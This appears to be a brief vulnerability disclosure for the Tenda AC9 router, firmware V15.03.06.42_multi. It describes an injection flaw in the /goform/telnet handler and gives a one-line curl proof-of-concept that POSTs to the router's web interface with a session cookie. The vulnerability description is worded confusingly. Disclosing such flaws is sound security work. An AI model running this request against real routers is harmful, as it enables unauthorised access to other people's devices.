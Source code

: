 ## Tenda AC9 telnet

### Overview

* Vendor: Tenda

* Product: Tenda AC9 
* Version:  V15.03.06.42_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC9/US_AC9V3.0RTL_V15.03.06.42_multi_TD01.zip

### Vulnerability details

An issue was discovered in Tenda AC9 V15.03.06.42_multi. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![image](./img/1.png)

#### PoC

```
curl ‐i ‐X POST http://192.168.0.1/goform/telnet ‐d aa=aa ‐‐cookie "password=f6df9d1c0835927e37
 9ccc302b848f4aouh1qw"
```

![image-20250413210610225](./img/2.png)
